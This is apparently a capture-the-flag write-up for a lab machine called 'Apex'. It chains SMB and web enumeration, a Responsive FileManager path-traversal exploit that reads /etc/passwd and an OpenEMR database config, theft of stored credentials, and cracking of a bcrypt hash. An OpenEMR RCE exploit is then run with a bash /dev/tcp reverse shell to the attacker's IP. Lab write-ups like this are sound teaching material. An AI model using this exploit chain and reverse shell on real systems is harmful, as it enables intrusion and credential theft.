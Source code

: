 # Apex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.145
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:07 +08
Nmap scan report for 192.168.183.145
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Interesting ports open.&#x20;

### SMB Enumeration

Using `smbmap`, we can find some shares that are open.

```
$ smbmap -H 192.168.183.145              
[+] Guest session       IP: 192.168.183.145:445 Name: 192.168.183.145                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        docs                                                    READ ONLY       Documents
        IPC$                                                    NO ACCESS       IPC Service (APEX server (Samba, Ubuntu))
```

The `docs` share just had some files related to OpenEMR:

```
$ smbclient -N //192.168.183.145/docs        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 23:47:12 2021
  ..                                  D        0  Fri Apr  9 23:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

### Web Enumeration --> FileManager LFI

Port 80 shows a medical website:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

SMB enumeration revealed that this website might be running a vulnerable version of OpenEMR, and there are quite a few RCE exploits for OpenEMR.

However, most of these require credentials. I scanned the website for potential directories to other services, and found a File Manager using `gobuster`:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.145 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.145
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 22:11:27 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.145/assets/]
/thumbs               (Status: 301) [Size: 319] [--> http://192.168.183.145/thumbs/]
/source               (Status: 301) [Size: 319] [--> http://192.168.183.145/source/]
/filemanager          (Status: 301) [Size: 324] [--> http://192.168.183.145/filemanager/]
```

When we visit `/filemanager`, we can see that it is running Responsive FileManager:

<figure><img src="../../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

There are a few exploits related to this:

```
$ searchsploit responsive FileManager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Responsive Filemanager 9.13.1 - Server-Side Request Forger | linux/webapps/45103.txt
Responsive FileManager 9.13.4 - 'path' Path Traversal      | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities   | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal      | php/webapps/45271.txt
----------------------------------------------------------- ---------------------------------
```

The LFI works!

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<TRUNCATED>
```

### SQL Creds --> RCE

Since we have LFI, we can try reading the SQL credentials that are present within OpenEMR (based on reading the OpenEMR Github repository).&#x20;

{% embed url="https://github.com/openemr/openemr/blob/master/sites/default/sqlconf.php" %}

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php 
[*] Copy Clipboard
[*] Paste Clipboard
```

There was something blocking us from reading PHP files here, and its probably the `.htaccess` file. Within the FileManager instance, I noticed that the same PDFs on SMB were present within it.

<figure><img src="../../../.gitbook/assets/image (65) (5).png" alt=""><figcaption></figcaption></figure>

The LFI exploit copies and pastes files into directories, and this means that we should be able to read the file from the SMB share. We just need to modify the `paste_clipboard` function within the exploit:

<figure><img src="../../../.gitbook/assets/image (21) (9).png" alt=""><figcaption></figcaption></figure>

After changing the directories a few times, I got it within the SMB share:

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard

$ smbclient -N //192.168.183.145/docs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 11 22:30:24 2023
  ..                                  D        0  Tue Jul 11 22:20:07 2023
  sqlconf.php                         N      639  Tue Jul 11 22:30:24 2023
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

Here's its contents:

```php
$ cat sqlconf.php   
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';
```

Now we have some SQL creds, we can login to the database present.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (6).png" alt=""><figcaption></figcaption></figure>

We can then find the credentials for OpenEMR:

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.176 sec)
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:06 DONE (2023-07-11 22:36) 0.1474g/s 6430p/s 6430c/s 6430C/s versus..telmo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can run the RCE exploit for OpenEMR:

{% code overflow="wrap" %}
```
$ python2 45161.py -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1' http://192.168.183.145/openemr
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

The `root` user has the same password as the MySQL database of `thedoctor`:

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

